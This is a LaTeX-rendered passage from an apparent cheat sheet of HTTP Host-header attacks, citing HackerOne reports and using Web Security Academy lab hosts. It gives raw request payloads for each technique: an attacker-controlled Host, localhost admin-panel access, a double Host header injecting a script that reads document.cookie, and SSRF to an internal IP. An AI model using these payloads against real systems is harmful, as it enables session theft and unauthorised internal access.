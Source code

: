 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Host: exploit-server.com
\end{Verbatim}

\begin{quote}
\url{https://hackerone.com/reports/698416}
\end{quote}

\subsubsection{2. Admin panel from localhost
only}\label{2-admin-panel-from-localhost-only}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
GET /admin HTTP/1.1
Host: localhost
\end{Verbatim}

\subsubsection{3. Double Host / Cache
poisoning}\label{3-double-host--cache-poisoning}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Host: 0adf00cc033d5f09c05b077d000200eb.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
\end{Verbatim}

\begin{quote}
\url{https://hackerone.com/reports/123513}
\end{quote}

\subsubsection{4. SSRF}\label{4-ssrf}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
GET /admin HTTP/1.1
Host: 192.168.0.170
\end{Verbatim}

\subsubsection{5. SSRF}\label{5-ssrf}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
GET https://0a44007e03fb1d0cc0068900005000d1.web-security-academy.net HTTP/1.1
Host: 192.168.0.170
\end{Verbatim}
\end{document}
